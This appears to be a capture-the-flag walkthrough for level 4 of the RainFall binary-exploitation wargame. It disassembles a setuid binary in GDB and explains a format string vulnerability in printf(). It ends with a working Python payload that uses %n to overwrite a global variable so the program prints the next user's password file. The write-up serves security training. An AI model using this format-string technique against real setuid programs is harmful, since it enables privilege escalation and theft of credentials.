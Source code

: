 # Level4

## Walkthrough

We list the files in the current home directory.

```bash
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
level4@RainFall:~$ file ./level4
./level4: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8cb2bdaa7daab1347b36aaf1c98d49529c605db, not stripped
```

The file is owned by **level5** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
```

There are 3 interesting functions: `main()`, `p()` and `n()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

The `main()` function only calls the `n()` function.

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:    lea    eax,[ebp-0x208]
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    eax,[ebp-0x208]
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.

```

The `n()` function:
- calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- calls the function `p()`
- retrieves the value of a global variable stored at memory address `0x8049810` into the `eax` register
- Compares the value of `eax` with `0x1025544` (16930116 in decimal) and calls `system("/bin/cat /home/user/level5/.pass")` if the condition is met

```
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

The `p()` function only calls `printf()` to print the buffer to stdout

Similar to the previous level, this function is vulnerable to a **format string attack** and the method to complete it will be the same. The only differences are the comparison with a higher number, and a deeper position of the format string in the stack due to the various function calls.

Do not hesitate to check the `README` for the previous level in order to understand the logic behind our solution.

```
(gdb) b printf
Breakpoint 1 at 0x8048340
(gdb) r
Starting program: /home/user/level4/level4 
AAAA

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) stepi
0xb7e78851 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
eax            0xbffff430       -1073744848
ecx            0xb7fda005       -1208115195
edx            0xb7fd28c4       -1208145724
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff3f8       0xbffff3f8
ebp            0xbffff418       0xbffff418
esi            0x0	0
edi            0x0	0
eip            0xb7e78851       0xb7e78851 <printf+1>
eflags         0x200296	[ PF AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/16wx 0xbffff3f8
0xbffff3f8:     0xb7fd0ff4     0x08048455     0xbffff430     0xb7ff26b0
0xbffff408:     0xbffff674     0xb7fd0ff4     0x00000000     0x00000000
0xbffff418:     0xbffff638     0x0804848d     0xbffff430     0x00000200
0xbffff428:     0xb7fd1ac0     0xb7ff37d0     0x41414141     0xb7e2000a
```

```bash
python -c "print('\x10\x98\x04\x08' + '%8x' * 10 + '%16930032x' + '%n')" | ./level4
```
